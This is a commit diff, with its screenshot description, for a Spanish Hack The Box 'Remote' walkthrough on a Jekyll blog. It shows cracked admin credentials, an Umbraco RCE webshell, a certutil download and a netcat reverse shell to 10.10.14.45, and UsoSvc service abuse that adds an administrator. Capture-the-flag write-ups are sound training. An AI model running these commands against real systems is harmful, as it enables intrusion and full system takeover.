

Before and after one commit to CSL-LABS/CSL-LABS.github.io, a Jekyll site: the page built from _posts/2020-11-20-htb-remote.md, in a window 1280 px wide and 1400 px high, scrolled down 5718 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
update htb-remote

````diff
--- a/_posts/2020-11-20-htb-remote.md
+++ b/_posts/2020-11-20-htb-remote.md
@@ -102,22 +103,23 @@ Procedemos a realizar un ataque de diccionario utilizando la herramienta **John
 $ john --wordlist=/usr/share/wordlists/rockyou.txt hash_admin
 ```
 
-![John The Ripper](assets/htb/02_remote/08_john_the_ripper.png)
+![John The Ripper](/assets/htb/02_remote/08_john_the_ripper.png)
 _Ataque por diccionario con John The Ripper_
 
 Lo cual nos arroja como contraseña, las siguientes credenciales:
 - admin@htb.local:**baconandcheese**
+
 Estas credenciales nos dan acceso al panel de administración:
 
-![Panel Umbraco](assets/htb/02_remote/09_umbraco_panel_administracion.png)
+![Panel Umbraco](/assets/htb/02_remote/09_umbraco_panel_administracion.png)
 _Panel de Administración Umbraco_
 
-Con searchexploit encontramos un exploit que requiere de autenticación para obtener una ejecución remota de comandos en sistemas umbraco:
+Con **searchexploit** encontramos un exploit que **requiere de autenticación** para obtener una **ejecución remota de comandos** en sistemas umbraco:
 
 ```console
 $ searchsploit Umbraco
 ```
-![Searchsploit](assets/htb/02_remote/10_searchsploit_umbraco.png)
+![Searchsploit](/assets/htb/02_remote/10_searchsploit_umbraco.png)
 _Busqueda de exploit's para el software Umbraco_
 
 Inicialmente tenemos identificado el exploit [Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution](https://www.exploit-db.com/exploits/46153):
@@ -196,35 +198,37 @@ print r4.text
 print("End");
 ```
 
-Analizando el payload que tiene el exploit, vemos que realiza la ejecución directa del ejecutable calc.exe mediante el llamado de funcionalidades en C#, todo esto, embebido en la estructura XSLT. Entrando más en detalle con el exploit vemos lo siguiente:
+### Exploit
 
-1. Crea una sesión con requests (librería de Python) y realiza 4 peticiones al servidor, en este orden:
-    - [GET] Visita la página principal para ver si el host está disponible
-    - [POST] Realiza el proceso de login con las credenciales proporcionadas
-    - [GET] Visita directamente la funcionalidad vulnerable, para capturar las cookies y los datos para saltar el anti CSRF:
-    - /umbraco/developer/Xslt/xsltVisualize.aspx
-    - [POST] Por último, con los datos recopilados realiza la petición de explotación, la cual incluye el payload en el parámetro: ctl00$body$xsltSelection todo lo demás, viene de la petición anterior.
+Analizando el payload original que tiene el exploit, vemos que realiza la ejecución directa de **calc.exe** mediante el llamado de funcionalidades en **C#**, todo esto, embebido en la estructura **XSLT**. Entrando más en detalle con el exploit vemos lo siguiente:
 
-2. El payload consiste en una webshell básica en C#, la cual puede retornar un valor visual conforme al comando ingresado, y depende de 2 valores:
-- FileName => Este será el ejecutable a llamar por sistema operativo
-- CMD => Estos serán los argumentos pasados al ejecutable seleccionado.
+- Crea una sesión con requests (librería de Python) y realiza 4 peticiones al servidor, en este orden:
+    1. <span style="color:red">[GET]</span> Visita la página principal para validar disponibilidad del host.
+    2. <span style="color:green">[POST]</span> Realiza el proceso de login con las credenciales proporcionadas.
+    3. <span style="color:red">[GET]</span> Visita directamente la funcionalidad vulnerable, para capturar las cookies y los datos para saltar el **anti CSRF**: /umbraco/developer/Xslt/xsltVisualize.aspx
+    4. <span style="color:green">[POST]</span> Por último, con los datos recopilados realiza la petición de explotación, la cual incluye el payload en el parámetro: **ctl00$body$xsltSelection** todo lo demás, viene de la petición anterior.
+
+- El payload consiste en una webshell básica en C#, la cual puede retornar un valor visual conforme al comando ingresado, y depende de 2 valores:
+    1. **FileName** => Este será el ejecutable a llamar por sistema operativo
+    2. **CMD** => Estos serán los argumentos pasados al ejecutable seleccionado.
 
 Con todo lo anterior, podemos comprobar que al ingresar los siguientes valores en el payload, obtenemos un resultado de ejecución remota de comandos:
-- FileName = “cmd.exe”
-- Cmd: “/c whoami”
+- `FileName = “cmd.exe”`
+- `Cmd: “/c whoami”`
 Como respuesta a la petición obtenemos la información del comando ejecutado.
-![Test Exploit](assets/htb/02_remote/11_test_exploit.png)
+
+![Test Exploit](/assets/htb/02_remote/11_test_exploit.png)
 _Prueba manual del exploit_
 
 - Nota
-> Al ser un sistema Windows, lo primero que intentamos es realizar el consumo de un ejecutable (Shell reversa construida con msfvenom) de forma remota mediante SMB hacia nuestro servidor (consideramos que la Shell esta en C# y hay que escapar la barra invertida), quedando así: \\\\10.10.14.45\\share\\d14.exe, sin embargo, no obtenemos resultado debido a que es un sistema Windows 10 actualizado, y por defecto en las nuevas actualizaciones, Windows no esta aceptando el consumo de recursos SMB sin contraseña y deshabilito el SMBv2   (https://github.com/SecureAuthCorp/impacket/issues/599).
+> Al ser un sistema Windows, lo primero que intentamos es realizar el consumo de un ejecutable (Shell reversa construida con msfvenom) de forma remota mediante **SMB** hacia nuestro servidor (consideramos que la Shell esta en C# y hay que escapar la barra invertida), quedando así: \\\\10.10.14.45\\share\\d14.exe, sin embargo, no obtenemos resultado debido a que es un sistema Windows 10 actualizado, y por defecto en las nuevas actualizaciones, Windows no esta aceptando el consumo de recursos SMB sin contraseña y deshabilito el SMBv2 (<https://github.com/SecureAuthCorp/impacket/issues/599>).
 
-En este punto, intentamos ejecutar una Shell reversa con netcat, pero parece que por problemas con los caracteres de escape no funcionará, así que se decide no hacerlo de forma directa sino transferir al servidor el archivo y después ejecutarlo:
+En este punto, intentamos ejecutar una Shell reversa con **netcat**, pero parece que por problemas con los caracteres de escape no funcionará, así que se decide no hacerlo de forma directa sino transferir al servidor el archivo y después ejecutarlo:
 
 ```console
 $ cmd.exe /c certutil.exe -urlcache -f http://10.10.14.45/d14.ps1 C:\\site_backups\\nc.exe
 ```
-Antes de eso, creamos el servidor HTTP y colocamos ahí nuestro ejecutable de netcat:
+Antes de eso, creamos el servidor **HTTP** y colocamos ahí nuestro ejecutable de **netcat**:
 
 ```console
 $ python -m SimpleHTTPServer 80
@@ -237,29 +241,27 @@ $ nc -nvlp 4646
 $ nc.exe 10.10.14.45 4646 -e cmd.exe
 ```
 
-Lo cual nos proporciona una Shell interactiva con el servidor victima y podemos capturar la flag de bajos privilegios
+Lo cual nos proporciona una Shell interactiva con el servidor victima y podemos capturar la flag de bajos privilegios `user.txt`.
 
 ![Reverse Shell](/assets/htb/02_remote/12_user_txt.png)
 _Reverse Shell con usuario de bajos privilegios_
 
 ## Elevación de privilegios
 
-Procedemos a subir el archivo PowerUp de powershell, que nos permitirá testear de forma automática diferentes vectores de escala de privilegios en sistemas Windows y obtenemos los siguientes resultados:
+Procedemos a subir el archivo **PowerUp de powershell**, que nos permitirá testear de forma automática diferentes vectores de escala de privilegios en sistemas Windows y obtenemos los siguientes resultados:
 
 ![PowerUp](/assets/htb/02_remote/13_powerup.png)
 _PowerUp Windows_
 
-Como se puede observar, hay un hallazgo con el servicio UsoSvc, el cual no tiene adecuadamente configurado los permisos, así que después de mucho intentar, nos decantamos por esta posibilidad:
+Como se puede observar, hay un hallazgo con el servicio `UsoSvc`, el cual no tiene adecuadamente configurado los permisos, así que después de mucho intentar, nos decantamos por esta posibilidad. Investigando un poco, se descubre que dicho servicio posee una vulnerabilidad reciente de **escala de privilegios**, la cual afecta a sistemas Windows 10 y viene vulnerable desde fábrica:
 
 - <https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2019/november/cve-2019-1405-and-cve-2019-1322-elevation-to-system-via-the-upnp-device-host-service-and-the-update-orchestrator-service/>
 
-Investigando un poco, se descubre que dicho servicio posee una vulnerabilidad reciente de escala de privilegios, la cual afecta a sistemas Windows 10 y viene vulnerable desde fábrica.
-
-La vulnerabilidad consiste puntualmente en el abuso de permisos en un servicio, en este caso, un servicio propio de Windows. Por lo que podemos con los privilegios actuales, alterar la ruta del ejecutable del servicio e incrustar cualquier comando o acción. La explotación se puede realizar 2 maneras, una automática utilizando la funcionalidad Invoke-ServiceAbuse de PowerUp ó de forma manual, realizando la configuración y alterando la ruta.
+La vulnerabilidad consiste puntualmente en el **abuso de permisos en un servicio**, en este caso un servicio propio de Windows. Por lo que podemos con los privilegios actuales, alterar la ruta del ejecutable del servicio e incrustar cualquier comando o acción. La explotación se puede realizar 2 maneras, una automática utilizando la funcionalidad `Invoke-ServiceAbuse` de **PowerUp** ó de forma manual, realizando la configuración y alterando la ruta.
 
 - PowerUp
-```console
-$ Powershell -nop -exec bypass -c “Import-Module ./PowerUp.ps1; Invoke-ServiceAbuse -ServiceName UsoSvc”
+```powershell
+> Powershell -nop -exec bypass -c “Import-Module ./PowerUp.ps1; Invoke-ServiceAbuse -ServiceName UsoSvc”
 ```
 - Manual
 ```console
@@ -268,27 +270,27 @@ $ Powershell -nop -exec bypass -c “Import-Module ./PowerUp.ps1; Invoke-Service
 > sc.exe start UsoSvc
 ```
 
-Se podría decir que ambas maneras son lo mismo, pues la función de PowerUp realiza la parte manual, solamente que altera el comando a inyectar, creando un usuario y agregándolo al grupo de administrators:
+Se podría decir que ambas maneras son lo mismo, pues la función de **PowerUp** realiza la parte manual, solamente que altera el comando a inyectar, creando un usuario y agregándolo al grupo de administrators:
 
 ```console
 > net user john Password123! && net localgroup administrators john /add”
 ```
 
-En ambos casos la lógica es la misma, se detiene el servicio, se altera la ruta del binario o del comando a ejecutar, y como el servicio esta configurado para ejecutarse con privilegios de SYSTEM, al reiniciarlo ejecutará nuestros comandos con ese nivel de privilegios, permitiéndonos de esta manera la escala de privilegios.
+En ambos casos la lógica es la misma, se detiene el servicio, se altera la ruta del binario o del comando a ejecutar y, como el servicio esta configurado para ejecutarse con privilegios de `SYSTEM`, al reiniciarlo ejecutará nuestros comandos con ese nivel de privilegios, permitiéndonos de esta manera la escala de privilegios.
 
 ![Elevación de Privilegios](/assets/htb/02_remote/14_elevacion_privilegios.png)
 _Elevación de Privilegios_
 
-Al final se obtuvo la conexión reversa con este nuevo nivel de privilegios y se logra la captura del flag.
+Al final se obtuvo la conexión reversa con este nuevo nivel de privilegios y se logra la captura del flag `root.txt`.
 
 Bytez ;)
 
-## Referencia
+## Referencias Varias
 1. <https://recipeforroot.com/runas/>
-    - Script para ejecutar un RunAS con powershell, utilizando credenciales de algún usuario
+    - Script para ejecutar un **RunAS** con powershell, utilizando credenciales de algún usuario.
 2. <https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS>
-    - Proyecto de búsqueda y enumeración de vectores para escala de privilegios en Windows, tiene un .exe y .bat
+    - Proyecto de búsqueda y enumeración de vectores para escala de privilegios en Windows, interesante como alternativa a PowerUp.
 3. <https://book.hacktricks.xyz/shells/windows>
-    - o	Un blog bastante interesante, con trucos e información de seguridad.
+    - o	Un blog bastante interesante en seguridad; diferentes alternativas a shell reverse en sistemas windows.
 4. <https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources>
-    - EXCELENTE MATERIAL DE ESTUDIO!
+    - EXCELENTE MATERIAL DE ESTUDIO! Muy recomendado ;)
````
Also changed, not shown: other parts of _posts/2020-11-20-htb-remote.md (+22 -21 lines).
